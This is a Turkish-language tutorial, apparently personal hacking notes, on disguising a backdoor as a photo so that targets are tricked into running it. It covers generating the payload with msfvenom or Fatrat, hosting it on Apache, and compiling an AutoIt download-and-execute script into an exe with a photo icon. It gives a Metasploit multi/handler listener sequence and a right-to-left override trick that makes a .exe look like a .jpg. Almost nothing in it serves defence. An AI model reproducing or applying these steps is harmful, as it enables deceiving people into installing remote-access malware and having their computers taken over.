 - 🎭 İnsanları kandırmanın yollarından biri → **ilgi çekici bir resim dosyası** paylaşıp arka planda **backdoor** çalıştırmaktır.
    

---

### 🔑 Gerekli Olanlar

- 🖼️ **Fotoğraf** (hedefe gönderilecek)
    
- 🗂️ **Icon dosyası** (fotoğraf → icon formatına dönüştürülür)
    
- 💻 **Backdoor** (Msfvenom veya Fatrat ile oluşturulur)
    

👉 Bu 3 dosya `/var/www/html/` içindeki bir klasöre atılır → **Apache** ile sunucu olarak yayınlanır.

---

### ⚙️ Birleştirme (Windows Üzerinde)

1. 📥 **AutoIt** indir ve kur.
    
2. 📂 Şu repoyu indir:
    
    ```
    https://github.com/atilsamancioglu/TrojanFactory.git
    ```
    
3. 📝 `autoit-download-and-execute.txt` dosyasını masaüstüne al ve düzenle:
    
    - 📎 **URL kısımlarına**: fotoğrafın ve backdoor’un adreslerini yaz.
        
    - 🎨 Dönüştürülmüş ikon dosyasını indir.
        
4. 🛠️ **Compile Script to Exe** aracını aç:
    
    - **Source** → masaüstündeki script
        
    - **Icon** → seçilen icon dosyası
        
    - 🔄 **Convert et** → artık **fotoğraf görünümlü backdoor** hazır!
        

---

### 🖥️ Bağlantı Alma

- Kali Linux’ta:
    
    ```bash
    msfconsole
    use multi/handler
    set payload ...
    set LHOST ...
    set LPORT ...
    exploit -j -z
    sessions -l
    sessions 1
    ```
    
- ✅ Hedef dosyayı açtığında → arka planda backdoor çalışır.
    
- 🎯 Multi Handler → **session açılır** ve hedef bilgisayara bağlanılır.
    

---

### 🔮 Uzantı Gizleme Hilesi

1. 🌐 [unicode-explorer.com/c/202E](https://unicode-explorer.com/c/202E) → `Copy` seçeneğine tıkla.
    
2. 📝 Dosya adını düzenle:
    
    - Örn: `androidgpj.exe`
        
    - `gpj.exe` kısmını seç → kopyalanan karakteri yapıştır → `jpg.exe` gibi görünür.
        
3. 📸 Sonuç: Dosya aslında `.exe` iken, kullanıcıya **jpg resmi gibi görünür**.
    

---

💡 **Özet:**

- Fotoğraf + Icon + Backdoor = 🎭 **Kandırıcı dosya**
    
- Açıldığında arka planda **backdoor çalışır**
    
- Uzantı hilesi ile kullanıcıya **jpg gibi gösterilir**
